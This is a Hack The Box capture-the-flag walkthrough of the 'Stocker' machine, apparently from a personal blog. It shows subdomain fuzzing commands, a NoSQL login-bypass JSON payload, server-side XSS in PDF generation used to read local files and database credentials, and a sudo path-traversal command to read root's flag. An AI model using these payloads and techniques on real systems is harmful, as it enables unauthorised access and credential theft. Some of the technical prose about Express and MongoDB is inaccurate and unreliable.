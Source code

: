 ```yaml
---
title: Stocker
date: 2023-03-02 02:47:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [web, wfuzz, nmap, nosql, dynamic XSS, express, MongoDB, LFI]
published: true
---
```


## Enumeration

### nmap

nmap shows us two open ports 22,80

### wfuzz

```shell 
wfuzz -c -t 50 -u http://stocker.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.stocker.htb" --hc 301
```

or

### gobuster

```shell
gobuster vhost -u http://stocker.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --append-domain
```



## dev.stocker.htb - Express Mongo NoSQL

We start by capturing a login request in burpsquite.

![Capturing a login request in burp](/assets/stocker02.png)

This server is using Express. Express servers use MongoDB, a popular NoSQL language that is more performance oriented and has improved security because it elimated the SQL language and relys on a structured querty language like dictionaries that is found in JSON or java or python. 

[This goes over the exploitation process more in depth.](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb)

We can use a json authentication bypass from [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass). 

We can set the content-type to application/json and use this json payload to access `/stock`

```shell
{"username": {"$ne": null}, "password": {"$ne": null}}
```

### LFI 

Adding stock and capturing the add to cart request in the burp suite proxy that this uses more json to create the pdf. We can modify the json and [perform service side xss](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf).

![Dynamic Server side XSS](/assets/stocker03.png)

We pick up a few users here:

```shell
mongodb:x:113:65534::/home/mongodb:/usr/sbin/nologin
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Lets try to read some more files. This server is running Express and NodeJS, and our webserver can be assumed to running at `/var/www/dev` we can read index.js with our LFI and get DB credentials.

![MongoDB Credentials located inside of the DEV](/assets/stocker04.png)

We can use these credentials to login to the ssh via angoose.

## system 

![Pick up the first flag](/assets/stocker05.png)

Pretty easy to [pwn the machine](https://www.hackthebox.com/achievement/machine/1096692/523) from here. `sudo -l` 

```shell
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

There is a `tst.js` in the users home that will read roots flag. We can use directory traversal to get the final flag.

```shell
sudo /usr/bin/node /usr/local/scripts/../../../../home/angoose/tst.js
```

This box took me weeks to finish. I am currently trying to focus on my weaknesses which are exploiting the many different underlying web technologies. 

